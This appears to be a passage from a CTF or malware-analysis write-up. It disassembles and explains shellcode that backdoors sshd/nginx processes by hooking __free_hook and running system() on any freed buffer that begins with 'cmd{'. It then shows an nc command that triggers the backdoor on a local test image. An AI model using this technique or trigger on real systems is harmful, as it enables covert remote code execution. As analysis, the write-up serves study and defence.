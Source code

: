 ```
  ╎│││││╎   0x0000006e      488d52ff       lea rdx, [rdx - 1]
  ╎│││││╎   0x00000072      8d71e0         lea esi, [rcx - 0x20]
  ╎│││││╎   0x00000075      4080fe5e       cmp sil, 0x5e               ; 94
  ────────< 0x00000079      771b           ja 0x96 ; skip shellcode magic if counter is too high
  ╎│││││╎   0x0000007b      80f97d         cmp cl, 0x7d                ; '}'
  ────────< 0x0000007e      7508           jne 0x88
  ╎│││││╎   0x00000080      c60300         mov byte [rbx], 0 ; write null termination
  ╎│││││╎   0x00000083      41ffd5         call r13 ; system(), param is string inside cmd{}
  ────────< 0x00000086      eb0e           jmp 0x96
  ────────> 0x00000088      4883fa01       cmp rdx, 1
  └───────< 0x0000008c      75d4           jne 0x62
   │││││╎   0x0000008e      bd01000000     mov ebp, 1
   │││││╎   0x00000093      4889c3         mov rbx, rax
  ─└└└└───> 0x00000096      48ffc3         inc rbx
       │╎   0x00000099      48ffcd         dec rbp
       │└─< 0x0000009c      eb99           jmp 0x37
       └──> 0x0000009e      48b842424242.  movabs rax, 0x4242424242424242 ; VA of free()
            0x000000a8      4c89e7         mov rdi, r12
            0x000000ab      ffd0           call rax ; free()
            0x000000ad      48b855555555.  movabs rax, 0x5555555555555555 ; VA of injected shellcode
            0x000000b7      48a344444444.  movabs qword [0x4444444444444444], rax ; Patch __free_hook() 
            0x000000c1      58             pop rax
            0x000000c2      5b             pop rbx
            0x000000c3      5d             pop rbp
            0x000000c4      415c           pop r12
            0x000000c6      415d           pop r13
            0x000000c8      c3             ret
```

## Analyze Shellcode
The commented shellcode disassembly pretty much sums the major functionality up.
1. Check if malloc_usable_size() returns a value > 5 (otherwise there can't be a string inside cmd{})
2. Verify if the memory buffer to be freed begins with cmd{
3. Create a null-terminated string comprising the chars inside cmd{...}
4. Call system() with that string (this is the remote code execution)
5. Do the normal free'ing afterwards (*interesting: for the time of calling system, the __free_hook hook is disabled and enabled again afterwards*).

Now we know the trigger for the code execution in backdoored processes: put cmd{*command*} into a memory buffer, e.g. by using this for input.

## Verify Backdoor/RCE in Local Image
Assumption: The sshd/nginx process in the qemu image might have been backdoored with the injector.sh script.
Test with nginx listening on tcp port 4321:
```
nc 0 4321
cmd{echo bla > /tmp/bla}
```
